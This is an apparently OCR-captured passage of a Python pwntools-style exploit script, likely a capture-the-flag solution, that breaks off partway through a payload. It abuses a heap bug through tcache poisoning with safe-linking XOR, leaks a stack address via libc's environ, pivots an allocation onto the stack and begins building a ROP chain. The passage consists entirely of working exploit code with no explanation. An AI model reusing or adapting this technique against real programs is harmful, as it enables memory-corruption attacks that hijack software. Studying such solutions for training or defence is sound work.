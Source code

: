 ```python
heap_base = heap_key << 12
lg("heap_base", heap_base)

delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: 0x101,
        }
    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")
input_uri(6, 0x100 - 0x10, b"aaa")
input_uri(7, 0x100 - 0x10, b"aaa")
delet(7)
delet(6)
delet(4)

delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: [
                0x101,
                heap_key ^ (libc_base + 0x222200 - 0x10),
            ],
        }
    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")
input_uri(8, 0x100 - 0x10, b"a" * 0x10)
show(8)
ru(b"a" * 0x10)
stack_base = u64_ex(rn(6)) - 0x158
lg("stack_base", stack_base)

delet(4)
delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: [
                0x101,
                heap_key ^ (stack_base),
            ],
        }
    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")

pop_rdi_ret = libc_base + 0x000000000002A3E5
input_uri(
    9,
    0x100 - 0x10,
    flat(
        [
            0xDEADBEEF,
```